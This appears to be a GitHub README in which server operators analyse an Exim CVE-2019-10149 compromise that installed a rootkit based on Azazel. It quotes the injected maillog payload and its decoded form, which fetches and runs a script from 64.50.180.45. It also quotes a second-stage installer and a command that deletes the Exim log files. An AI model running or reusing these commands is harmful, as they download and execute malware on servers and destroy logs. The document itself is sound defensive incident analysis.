 # Libaz

Recently someone used a known Exim exploit [CVE-2019-10149](https://www.exim.org/static/doc/security/CVE-2019-10149.txt) on a unpatched server. We found out very fast due to Exim not being able to boot. We secured as much of the trail as we could to maybe help you deal with this yourself.

## The infection
A infected email was sent to the server which performed a malicious download and install of a script. We noticed an entry like this in our maillog:
```
Jun 19 12:12:31 mail exim[14263]: 2019-06-19 12:12:31 1hdXZe-0003dl-0j ** root+${run{\x2Fbin\x2Fsh\t-c\t\x22wget\x2064.50.180.45\x2fsx\x20\x2dO\x20sx\x3bchmod\x20\x2bx\x20sx\x3b\x2e\x2fsx\x22}}@servername.tld: Too many "Received" headers - suspected mail loop
```
Which translates to:
```
root+${run{/bin/sh\t-c\t"wget 64.50.180.45/sx -O sx;chmod +x sx;./sx"}}@servername.tld
```

When fetching this url we got this:
```
wget 64.50.180.45/zlib.tgz -O zlib.tgz
tar zxvf zlib.tgz
cd libaz
./install
cd ..
rm -rf sx libaz zlib.tgz
```

So again we followed the path and retreived the zlib.rgz. Which brings us here in the repo.

We were triggered by Exim giving errors with a non-existing logfil which, looking back, made sence as the last line in the install script is:
```
rm -rf /var/log/exim_mainlog /var/log/exim_paniclog /var/log/exim_rejectlog
```

Which seems a bit overkill to just remove the entry created by the malicious download. If they did not removed the entire logfiles we probably would not have noticed the infection as fast as we did this time.

## Centos incompatibility
After decypting the values in the `const.h` file we noticed a lot of flaws for the setup of the server (wrong paths, files etc) resulting in the exploit failing to really settle comfortably. There were some suspicous files installed but not executed, the services were not running and backports were not
accessible. what we found were a preloader in `/etc/ld.so.preload` and `/lib/libgrubd.so`. Using various tools and methods we determined the infection was probably failed. Just to be sure we isolated the server, restored a backup, patched Exim and continued with our lives. 

Ps. See `const.h-decrypted` for the decrypted contents. 

## Azazel rootkit
The script is based on the [Azazel rootkit](https://github.com/chokepoint/azazel) although not all code matches (probably to work around some known issues in this no longer maintained rootkit).

## References
- http://seclist.us/killrk-is-a-azazel-and-jynx2-rootkit-removal-script.html for some insights in the scripts and their locations
- https://weekly-geekly.github.io/articles/212769/index.html for better understanding of the Azazel kit
